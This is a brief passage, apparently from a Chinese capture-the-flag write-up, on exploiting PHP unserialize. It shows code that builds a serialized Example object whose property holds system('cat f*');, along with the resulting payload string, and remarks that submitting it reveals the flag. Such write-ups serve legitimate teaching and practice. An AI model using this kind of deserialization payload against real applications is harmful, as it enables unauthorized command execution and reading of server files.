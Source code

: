 ![image-20240125173810405](image/image-20240125173810405.png)

构建命令进行读取

```
 $a = new Example();
 $a->sys="system('cat f*');";
 echo "\n";
 echo serialize($a);

O:7:"Example":1:{s:3:"sys";s:17:"system('cat f*');";}
```

将其传入可以看到在源代码中得到flag
